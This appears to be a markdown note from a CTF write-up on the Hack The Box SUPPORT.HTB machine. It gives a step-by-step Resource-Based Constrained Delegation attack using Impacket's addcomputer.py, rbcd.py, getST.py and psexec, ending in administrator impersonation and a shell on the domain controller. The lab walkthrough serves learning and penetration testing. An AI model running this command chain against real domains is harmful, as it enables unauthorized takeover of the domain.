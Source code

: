 ------------

### AD attacks-:

------------

### Abuse Resource-Based Constrained Delegation to Gain Unauthorized Access

--------------

- In Resource-Based Constrained Delegation (RBCD), we configure the target resource e.g. a database or file server to specify which service accounts are permitted to access it on behalf of users. For example, a database service can be set up to allow specific services, like a web service, to act on behalf of users through assigned security permissions.
- This differs from unconstrained and constrained delegation. With unconstrained delegation, service accounts with delegation enabled can access any resource on behalf of users. Similarly, with constrained delegation, service accounts with delegation enabled can access a specific list of resources.
- Requirement-:

```
BCD is configured by setting the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
This attribute specifies which service accounts or systems are permitted to act on behalf of users to access the target resource.
-To exploit this type of delegation, an attacker must gain access to an account with Write permissions on the targeted resource (computer object), such as GenericAll, GenericWrite, and WriteDACL.
```

- User `SUPPORT@SUPPORT.HTB` which the user I owned before is a member of a group called `SHARED SUPPORT ACCOUNTS@SUPPORT.HTB`. The group itself have full control to a computer called DC.SUPPORT.HTB, so in other words user SUPPORT have full control to DC.SUPPORT.HTB including write permission.
  
![image](https://github.com/user-attachments/assets/4b44f38a-49c4-45fb-b68f-ddf8a3f1442b)

- Exploiting with rbcd tool
- Impacket tool `[AddCOmputer]`Syntax-:

```bash
addcomputer.py -computer-name 'password' -computer-pass 'password' -dc-ip [ip] '[domain]/[username]:[password]'
```

![image](https://github.com/user-attachments/assets/bc19a1ba-5325-444a-9a0d-803f1128bcf9)

- Then, we use the RBCD python script to add our new computer to the msds-allowedtoactonbehalfofotheridentity attribute list.[RBCD tool](https://github.com/AlteredSecurity/RBCD.git)

![image](https://github.com/user-attachments/assets/e916c933-d028-4a30-9580-1de27fdd9790)

- Syntax-:

```
python3 rbcd.py 10.10.11.174 -u [domain]\\[user] -p '[password]' -t DC -f [newly created computer]
```
![image](https://github.com/user-attachments/assets/4d39f81b-92fa-4ae4-9e0a-f6b6ab2757d9)

- Now, we have what it needs to request a service ticket; we will use the getST.py script from impacket instead of Rubeus to request the service ticket as administrator.

```bash
python3 getST.py -spn cifs/[object with unconstrained delegation over] -impersonate [user] -dc-ip [ip] '[domain]/[user]:[password]'
```

![image](https://github.com/user-attachments/assets/253b6ac4-0518-46c5-afc0-bdf8f9d90c10)

![image](https://github.com/user-attachments/assets/a4cb3279-56f8-4360-b567-7a5336a1a96c)

- When the ticket is issued, we can use by setting it to variable `KRB5CCNAME` for `impacket-psexec`.

Syntax-:

```bash
KRB5CCNAME=[ccache file name [endswith .ccache] impacket-psexec [domain]/[user]@[object] -k -no-pass
```

![image](https://github.com/user-attachments/assets/68bf410e-228d-4ade-9698-4afec915d1fb)






